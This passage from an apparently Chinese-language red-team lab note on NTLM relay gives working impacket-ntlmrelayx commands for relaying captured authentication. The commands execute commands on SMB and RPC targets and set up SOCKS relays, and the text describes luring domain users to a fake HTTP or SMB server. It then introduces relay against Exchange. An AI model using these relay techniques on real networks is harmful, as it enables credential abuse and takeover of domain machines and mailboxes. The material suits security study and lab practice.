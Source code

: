 
#### Impcaket ntlmrelayx

ntlmrelayx 脚本可以直接用现有的 hash 去尝试重放指定的机器
```
impacket-ntlmrelayx -t smb://<被攻击ip> -c whoami -smb2support
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/10.png)

诱导域管理员或普通域用户访问攻击机搭建的伪造 HTTP 或 SMB 服务，并输入用户名密码：

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/11.png)

攻击者的 ntlmrelayx 上面即可显示成功在目标上执行命令

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/12.png)

**socks**
```
echo "192.168.141.130" >> targets.txt
echo "192.168.141.131" >> targets.txt
echo "192.168.141.132" >> targets.txt
echo "192.168.141.133" >> targets.txt

impacket-ntlmrelayx -tf targets.txt -socks -smb2support
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/24.png)

**ADWS(built upon NetTcpBinding WCF)**

kali 上启用(192.168.141.129)
```
impacket-ntlmrelayx --no-smb-server --no-http-server -t rpc://192.168.141.132 -c "echo a > c:\test"
```

域控上执行
```
Get-Command
get-aduser -filter * -server 192.168.141.129
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/25.png)

目标域成员机器执行命令

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/26.png)

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/27.png)

---

### Exchange中继

Exchange 的认证也支持 NTLM SSP。我们可以 relay 的 Exchange，从而收发邮件，代理等等。
